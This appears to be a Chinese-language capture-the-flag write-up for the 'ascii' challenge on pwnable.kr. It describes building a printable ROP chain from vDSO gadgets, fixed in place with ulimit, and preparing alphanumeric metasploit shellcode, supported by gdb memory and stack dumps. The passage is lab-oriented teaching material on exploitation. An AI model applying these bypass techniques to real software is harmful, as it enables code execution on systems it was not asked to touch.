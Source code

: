 <br>

**STEP1**

使用ldd查看程序并未加载动态库可以确定本程序是静态编译的。静态编译的程序通常有大量的ROP Gadgets供我们使用，不过题目要求输入的字符为可打印字符，这就需要Gadgets的地址是Printable的。

```
gdb-peda$ info proc map
process 15655
Mapped address spaces:
Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x80ed000    0xa5000        0x0 /home/user/pwn/pwnkr/ascii/ascii
 0x80ed000  0x80ef000     0x2000    0xa5000 /home/user/pwn/pwnkr/ascii/ascii
 0x80ef000  0x8113000    0x24000        0x0 [heap]
0x55555000 0x55557000     0x2000        0x0 [vvar]
0x55557000 0x55559000     0x2000        0x0 [vdso]
0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

可以看出代码段中的地址0x080e均是不可打印字符，所以不能在代码段中搜索Gadgets。不过可以使用ulimit -s unlimited将vDSO的基址固定来找vDSO中的Gadgets([mmap及linux地址空间随机化失效漏洞](http://weaponx.site/2017/03/13/mmap%E5%8F%8Alinux%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4%E9%9A%8F%E6%9C%BA%E5%8C%96%E5%A4%B1%E6%95%88%E6%BC%8F%E6%B4%9E/))。

使用命令dump binary memory ./vDsodump 0x55557000 0x55559000将vDSO所在的内存空间dump出来，当程序执行到ret观察栈中的数据并寻找可用的数据。

```
gdb-peda$ stack 15
0000| 0xffffd63c --&gt; 0x8048fcb (&lt;main+189&gt;:mov    ebx,DWORD PTR [ebp-0x4])
0004| 0xffffd640 --&gt; 0x80c562e ("triggering bug...")
0008| 0xffffd644 --&gt; 0x1000
0012| 0xffffd648 --&gt; 0x7
0016| 0xffffd64c --&gt; 0x32 ('2')
0020| 0xffffd650 --&gt; 0xffffffff
0024| 0xffffd654 --&gt; 0x0
0028| 0xffffd658 --&gt; 0xffffd704 --&gt; 0xffffd839 ("/home/user/pwn/pwnkr/ascii/ascii")
0032| 0xffffd65c --&gt; 0x1
0036| 0xffffd660 --&gt; 0x80496e0 (&lt;__libc_csu_fini&gt;:push   ebx)
0040| 0xffffd664 --&gt; 0x0
0044| 0xffffd668 --&gt; 0x80000000 --&gt; 0xa31 ('1n')
0048| 0xffffd66c --&gt; 0x2
0052| 0xffffd670 --&gt; 0x0
0056| 0xffffd674 --&gt; 0x0
```

明显看出pop3_ret + pop3_ret + pop2_ret可以让程序跳入0x80000000执行shellcode。然后使用rp++在dump出的vDSO内存空间中搜索ROP Gadgets。在offset中寻找Printable的Gadgets发现有pop3_ret(0x00000751)和pop2_ret(0x00000752)，这样就可以构造出跳入0x80000000的ROP Chain。



**STEP2**

使用metasploit生成BufferRegister为EAX的shellcode，现在需要编写Printable Instructions将EAX设置为shellcode起始的地址。opcode为Alphanumeric的指令如下表所示

![](https://p2.ssl.qhimg.com/t0118d11eaa733af0e9.png)
